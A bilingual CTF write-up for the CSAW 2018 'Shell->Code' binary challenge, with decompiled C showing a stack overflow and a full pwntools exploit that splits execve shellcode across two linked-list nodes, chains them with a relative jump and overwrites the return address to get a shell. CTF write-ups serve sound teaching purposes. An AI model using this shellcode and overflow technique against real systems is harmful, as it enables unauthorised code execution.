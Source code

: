 ```yaml
---
author: "Laluka"
title: "CSAW - Shell->Code"
slug: "shell_code"
date: 2018-09-16
description: "Binary exploitation using linked lists in order to store parts of a shellcode in many places and then link their execution with jumps. "
---
```



### Description

> Linked lists are great! They let you chain pieces of data together.

> nc pwn.chal.csaw.io 9005

You can download the ELF file : [here](shellpointcode)


### TL;DR

This challenge uses linked list and leaks an address, the stack is executable,
a short shellcode and a relative jump will do the trick !


### Methology

Step 1 : Use IDA to decompile the program, find the two useful functions that
fills the linked list and expose the buffer overflow.

```c
__int64 nononode()
{
  char v1; // [rsp+0h] [rbp-40h]
  __int64 v2; // [rsp+8h] [rbp-38h]
  char *v3; // [rsp+20h] [rbp-20h]
  __int64 v4; // [rsp+28h] [rbp-18h]

  v3 = &v1;
  puts("(15 bytes) Text for node 1:  ");
  readline(&v4, 15LL);                        // <- Shellcode here
  puts("(15 bytes) Text for node 2: ");
  readline(&v2, 15LL);                        // <- Shellcode here
  puts("node1: ");
  printNode(&v3);
  return goodbye();                           // <- Overflow func here
}

int goodbye()
{
  char s; // [rsp+Dh] [rbp-3h]

  puts("What are your initials?");
  fgets(&s, 32, stdin);                       // <- Overflow here
  return printf("Thanks %s\n", &s);
}
```

Step 2 : Find a short shellcode, code the exploit, and jump in !

```python
#!/usr/bin/env python2

from pwn import *

shellcode = "\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb"
shellcode += "\x53\x31\xc0\x99\x31\xf6\x54\x5f\xb0\x3b\x0f\x05"
# jmp short 0x13 (rip when reaching this instruction - @second)
jmp_rip_p10 = "\xEB\x11"
offset = 11

r = remote("pwn.chal.csaw.io", 9005)
#r = process("./shellpointcode")  # local debugging
r.readuntil("node 1:  \n")
r.sendline(shellcode[15 - 2:])
r.readuntil("node 2: \n")
r.sendline(shellcode[:15 - 2] + jmp_rip_p10)
r.readline()
adr = r.readline().split(": ")[1].split("\n")[0]
print "adr", adr
adr = int(adr[2:], 16)
second = adr + 0x8          # constant offset in the stack
first = second + 0x20       # reach the 2nd buffer, constant offset in the stack
print "second", hex(second)
print "first", hex(first)
r.readuntil("\n\n")
# pause()                  # time to attach gdb and continue
r.sendline("A" * offset + p64(second))
r.interactive()
```

Step 3 : Run the exploit !

<img class="img_full" src="run.png" alt="run" >

Pretty straight forward, I likes this challenge as it requires to find a small shellcode and permute instructions it split it in two small parts without breaking it.


<h2 id="fr">French version</h2>


### Description

> Les listes chainées sont géniales ! Elles vous permettent de chaîner des données ensemble.

> nc pwn.chal.csaw.io 9005

Vous pouvez télécharger le fichier ELF : [ici](shellpointcode)


### TL;DR

This challenge uses linked list and leaks an address, the stack is executable,
a short shellcode and a relative jump will do the trick !

Ce challenge utilise une liste chainée, fait fuiter une adresse, et la pile est exécutable. Un petit shellcode, un saut relatif et le tour est joué !


### Methologie

Etape 1 : Utiliser IDA pour décompiler le programme, trouver les deux fonctions utiles qui remplissent la liste chainée et expose le buffer overflow.

```c
__int64 nononode()
{
  char v1; // [rsp+0h] [rbp-40h]
  __int64 v2; // [rsp+8h] [rbp-38h]
  char *v3; // [rsp+20h] [rbp-20h]
  __int64 v4; // [rsp+28h] [rbp-18h]

  v3 = &v1;
  puts("(15 bytes) Text for node 1:  ");
  readline(&v4, 15LL);                        // <- Shellcode here
  puts("(15 bytes) Text for node 2: ");
  readline(&v2, 15LL);                        // <- Shellcode here
  puts("node1: ");
  printNode(&v3);
  return goodbye();                           // <- Overflow func here
}

int goodbye()
{
  char s; // [rsp+Dh] [rbp-3h]

  puts("What are your initials?");
  fgets(&s, 32, stdin);                       // <- Overflow here
  return printf("Thanks %s\n", &s);
}
```

Etape 2 : Trouver un petit shellcode, coder l'exploit, et jump au bon endroit !

```python
#!/usr/bin/env python2

from pwn import *

shellcode = "\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb"
shellcode += "\x53\x31\xc0\x99\x31\xf6\x54\x5f\xb0\x3b\x0f\x05"
# jmp short 0x13 (rip when reaching this instruction - @second)
jmp_rip_p10 = "\xEB\x11"
offset = 11

r = remote("pwn.chal.csaw.io", 9005)
#r = process("./shellpointcode")  # local debugging
r.readuntil("node 1:  \n")
r.sendline(shellcode[15 - 2:])
r.readuntil("node 2: \n")
r.sendline(shellcode[:15 - 2] + jmp_rip_p10)
r.readline()
adr = r.readline().split(": ")[1].split("\n")[0]
print "adr", adr
adr = int(adr[2:], 16)
second = adr + 0x8          # constant offset in the stack
first = second + 0x20       # reach the 2nd buffer, constant offset in the stack
print "second", hex(second)
print "first", hex(first)
r.readuntil("\n\n")
# pause()                  # time to attach gdb and continue
r.sendline("A" * offset + p64(second))
r.interactive()
```
Etape 3 : Lancer l'exploit !

<img class="img_full" src="run.png" alt="run" >

Plutôt simple, j'ai bien aimé ce challenge car il nécessite de trouver un shellcode concis et de permuter les instructions pour le diviser en deux petites parties sans le casser.

